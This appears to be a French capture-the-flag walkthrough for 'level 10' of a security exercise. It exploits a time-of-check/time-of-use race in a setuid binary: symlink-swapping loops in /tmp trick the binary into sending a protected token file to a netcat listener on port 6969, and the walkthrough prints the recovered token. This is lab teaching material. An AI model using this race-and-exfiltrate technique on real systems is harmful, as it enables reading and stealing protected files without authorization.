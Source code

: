 # LEVEL 10


```
strings level10

...
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
;*2$"
...
```

On comprend qu'il y'a 
- Une connexion au serveur sur le port 6969
- Une verification de droit utilisateur sur le fichierdans le serveur puis envoie de fichier

Ce qu'on peut faire c'est profiter du moment entre la vérification de droit et l'envoie pour modifier le fichier envoyé

Donc on va lancer une boucle qui crée un lien dans /tmp et qui modifie le lien crée par un lien du token dans /tmp
et une deuxieme boucle qui execute level10 avec le lien crée dans le tmp

On lance en paralléle les deux bouole
```
while true; do ln -fs level10 /tmp/test; ln -fs token /tmp/test; done

while true; do ./level10 /tmp/test 192.168.1.16; done
```

et on va lancer une netcat loop
```
nc -lk 6969
```
-k : Forces nc to stay listening for another connection after its current connection is completed. It is an error to use this option without the -l option.
-l : listen mode, for inbound connects

On trouve:
```
...
woupa2yuojeeaaed06riuj63c
...
```

et avec su flag10 getflag on aura le flag du level10
